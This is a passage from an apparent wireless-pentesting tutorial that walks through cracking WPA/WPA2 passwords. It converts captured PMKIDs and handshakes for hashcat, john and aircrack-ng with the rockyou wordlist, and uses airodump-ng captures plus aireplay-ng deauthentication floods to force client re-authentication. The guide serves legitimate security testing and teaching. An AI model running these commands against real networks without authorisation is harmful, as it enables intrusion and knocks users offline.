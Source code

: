 The **PMKIDs captured** will be shown in the **console** and also **saved** inside \_ **/tmp/attack.pcap**\_\
Now, convert the capture to **hashcat/john** format and crack it:

```bash
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Please note the format of a correct hash contains **4 parts**, like: `4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7566f6461666f6e65436f6e6e6563743034383131343838`
If yours **only** contains **3 parts**, then, it is **invalid** (the PMKID capture wasn't valid).

Note that `hcxdumptool` **also capture handshakes** (something like this will appear: **`MP:M1M2 RC:63258 EAPOLTIME:17091`**). You could **transform** the **handshakes** to **hashcat**/**john** format using `cap2hccapx`

```bash
tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes
```

_I have noticed that some handshakes captured with this tool couldn't be cracked even knowing the correct password. I would recommend to capture handshakes also via traditional way if possible, or capture several of them using this tool._

### Handshake capture

An attack on **WPA/WPA2** networks can be executed by capturing a **handshake** and attempting to **crack** the password **offline**. This process involves monitoring the communication of a specific network and **BSSID** on a particular **channel**. Here's a streamlined guide:

1. Identify the **BSSID**, **channel**, and a **connected client** of the target network.
2. Use `airodump-ng` to monitor the network traffic on the specified channel and BSSID, hoping to capture a handshake. The command will look like this:

```bash
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
```

3. To increase the chance of capturing a handshake, momentarily disconnect the client from the network to force a re-authentication. This can be done using the `aireplay-ng` command, which sends deauthentication packets to the client:

```bash
aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, may not work in all scenarios
```

_Note that as the client was deauthenticated it could try to connect to a different AP or, in other cases, to a different network._

Once in the `airodump-ng` appears some handshake information this means that the handshake was captured and you can stop listening:
